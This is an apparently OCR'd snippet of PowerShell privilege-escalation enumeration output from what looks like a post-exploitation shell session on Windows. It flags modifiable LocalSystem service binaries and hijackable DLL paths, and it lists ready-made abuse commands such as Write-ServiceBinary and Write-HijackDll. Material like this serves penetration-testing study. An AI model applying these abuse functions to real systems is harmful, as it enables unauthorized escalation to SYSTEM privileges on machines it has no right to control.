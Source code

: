 ```bash
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'LiveUpdateSvc' -Path <HijackPath>


[*] Checking service executable and argument permissions...


ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'IObitUnSvr'



[*] Checking service permissions...


[*] Checking %PATH% for potentially hijackable .dll locations...


HijackablePath : C:\Windows\system32\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\system32\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Windows\System32\WindowsPowerShell\v1.0\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\System32\WindowsPowerShell\v1.0\\wlbsctrl.dll' -Command '...'


[*] Checking for AlwaysInstallElevated registry key...


[*] Checking for Autologon credentials in registry...


[*] Checking for vulnerable registry autoruns and configs...


[*] Checking for vulnerable schtask files/configs...


[*] Checking for unattended install files...


[*] Checking for encrypted web.config strings...


[*] Checking for encrypted application pool and virtual directory passwords...


PS > ^Z
Background channel 6? [y/N]  y
```
